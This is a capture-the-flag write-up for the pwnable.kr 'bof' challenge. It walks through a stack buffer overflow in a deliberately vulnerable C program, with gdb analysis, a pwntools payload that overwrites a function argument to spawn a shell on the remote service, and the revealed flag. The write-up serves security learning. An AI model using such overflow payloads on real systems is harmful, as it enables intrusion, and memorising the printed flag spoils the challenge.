# Pwnable.kr: Toddler's Bottle
## bof

This challenge requires us to perform a simple Buffer Overflow attack for overwriting function parameters stored inside of memory.

The C source code for the challenge is shown below, where the vulnerability can be immediately be identified at the *gets(overflowme)* call since *char * gets( char * )* has no array boundary checks and just reads *stdin* until the newline character.

*bof.c*
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Using this vulnerability, we can overflow the stack and overwrite the default *0xdeadbeef* parameter to be *0xcafebabe* in order to bypass the *key == 0xcafebabe* check and get a shell. The final piece to the puzzle is figuring out how big our input should be to overflow the key parameter. I used *gdb* to analyse the stack just before the *key == 0xcafebabe* comparison check, by creating a breakpoint at the CMP machine instruction.

<pre>
gdb-peda$ disas func
Dump of assembler code for function func:
   0x0000062c <+0>:	push   ebp
   0x0000062d <+1>:	mov    ebp,esp
   0x0000062f <+3>:	sub    esp,0x48
   0x00000632 <+6>:	mov    eax,gs:0x14
   0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:	xor    eax,eax
   0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:	call   0x645 <func+25>
   0x00000649 <+29>:	lea    eax,[ebp-0x2c]
   0x0000064c <+32>:	mov    DWORD PTR [esp],eax
   0x0000064f <+35>:	call   0x650 <func+36>
   <b>0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe</b>
   0x0000065b <+47>:	jne    0x66b <func+63>
   0x0000065d <+49>:	mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:	call   0x665 <func+57>
   0x00000669 <+61>:	jmp    0x677 <func+75>
   0x0000066b <+63>:	mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:	call   0x673 <func+71>
   0x00000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:	je     0x688 <func+92>
   0x00000683 <+87>:	call   0x684 <func+88>
   0x00000688 <+92>:	leave  
   0x00000689 <+93>:	ret    
End of assembler dump.
gdb-peda$ b * func+40
</pre>

Now we can just run the program inside *gdb* and give it an input of 'AAAAAAAA' until the breakpoint to help identify where the buffer is located on the stack. The character 'A' was randomly chosen, since it has an ascii value of 41 which can help us identify where the buffer is.

<pre>
gdb-peda$ x/50wx $esp
0xffffd1c0:	0xffffd1dc	0xffffd2c4	0xf7fb2000	0xf7fb09e0
0xffffd1d0:	0x00000000	0xf7fb2000	0xf7ffc840	<b>0x41414141</b>
0xffffd1e0:	<b>0x41414141	0xf7fb2000	0x00000001	0x5655549d</b>
0xffffd1f0:	<b>0xf7fb23fc	0x00040000	0x56556ff4	0xfb2c4900</b>
0xffffd200:	<b>0x00400000	0x56556ff4	0xffffd228	0x5655569f</b>
0xffffd210:	0xdeadbeef	0x00000000	0x565556b9	0x00000000
0xffffd220:	0xf7fb2000	0xf7fb2000	0x00000000	0xf7df97e1
0xffffd230:	0x00000001	0xffffd2c4	0xffffd2cc	0xffffd254
0xffffd240:	0x00000001	0x00000000	0xf7fb2000	0x00000000
0xffffd250:	0xf7ffd000	0x00000000	0xf7fb2000	0xf7fb2000
0xffffd260:	0x00000000	0x0122c2f7	0x41a9e4e7	0x00000000
0xffffd270:	0x00000000	0x00000000	0x00000001	0x56555530
0xffffd280:	0x00000000	0xf7fe9450
</pre>

The buffer starts at the top *0x41414141* entry in the stack, which is located at 4*13=52 bytes above the *0xdeadbeef* parameter. Therefore our input needs to have 52 bytes before we overflow the parameter. However, since our target system has little-endian ordering we will have to reverse our overflowing value.

We can now write our *pwn* script so that we overflow the buffer by 52 bytes then overwrite the passed parameter to the *func* call.

*bof_pwn.py*
```python
from pwn import *

payload = 52*'A' + '\xbe\xba\xfe\xca'
shell = remote('pwnable.kr',9000)
shell.send(payload)
shell.interactive()
```

Hooray! We have just got our flag!

```
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$
$ cat flag
daddy, I just pwned a buFFer :)
```
